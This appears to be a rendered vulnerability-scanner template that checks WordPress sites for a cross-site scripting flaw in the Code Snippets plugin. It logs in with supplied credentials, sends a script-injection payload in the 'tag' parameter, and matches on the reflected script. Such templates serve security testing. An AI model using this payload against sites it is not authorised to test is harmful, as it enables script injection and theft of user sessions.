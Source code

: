 **Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# WordPress Code Snippets - Cross-Site Scripting
## Description
- WordPress Code Snippets plugin contains a cross-site scripting vulnerability. An attacker can execute arbitrary script in the browser of an unsuspecting user in the context of the affected site. This can allow the attacker to steal cookie-based authentication credentials and launch other attacks.
- severity - medium
- tags - wordpress,xss,wp-plugin,authenticated
## Requests
### Step - 1
```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```
### Step - 2
```
GET /wp-admin/admin.php?page=snippets&tag=\</script>\<script>alert(document.domain)\</script> HTTP/1.1
Host: {{Hostname}}

```
### Matchers

**Type - word**
- part - body
- words
    1. \</script>\<script>alert(document.domain)\</script>
    2. toplevel_page_snippets
    3. Search results in tag
- condition - and

**Type - word**
- part - header
- words
    1. text/html
